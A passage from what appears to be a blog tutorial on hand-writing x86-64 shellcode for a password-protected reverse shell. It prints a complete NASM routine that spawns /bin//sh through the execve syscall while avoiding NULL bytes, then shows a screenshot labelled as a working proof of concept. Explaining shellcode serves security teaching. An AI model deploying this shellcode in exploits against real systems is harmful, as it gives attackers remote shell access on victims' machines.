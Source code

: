 <figcaption class="figure-caption">C code for redirecting input/output/errors</figcaption>

### Spawning a Shell

The final step is to spawn a shell e.g., `/bin/sh` or `/bin/bash`. You can do so by using the syscall `execve`.

The snippet of code below is an assembly routine which does exactly this, however it uses the path `/bin//sh`, in order to avoid using `NULL` bytes in the path passed to `execve`.

```nasm
SpawnSystemShell:

    ; clear RAX register (zero-sign extended)
    xor eax, eax

    ; NULL terminator for the string below
    push rax

    ; 3rd argument of execve: envp (in this case a pointer to NULL)
    mov rdx, rsp

    ; string "/bin//sh"
    mov rbx, 0x68732f2f6e69622f
    push rbx

    ; 1st argument of execve: executable to run
    mov rdi, rsp

    ; 2nd argument of execve: array of arguments passed to the executable
    push rax

    push rdi
    mov rsi, rsp

    ; syscall execve
    add eax, 0x3b

    ; invoke execve
    syscall
```

The following proof of concept demonstrates the successful creation of a password-protected reverse shell:

<figure class="kg-card kg-image-card kg-width-wide kg-card-hascaption"><img src="__GHOST_URL__/content/images/2022/06/image-14.png" class="kg-image" alt loading="lazy" width="1884" height="527" srcset="__GHOST_URL__/content/images/size/w600/2022/06/image-14.png 600w, __GHOST_URL__/content/images/size/w1000/2022/06/image-14.png 1000w, __GHOST_URL__/content/images/size/w1600/2022/06/image-14.png 1600w, __GHOST_URL__/content/images/2022/06/image-14.png 1884w" sizes="(min-width: 1200px) 1200px"><figcaption class="figure-caption">Password-protected Reverse Shell Proof of Concept</figcaption>

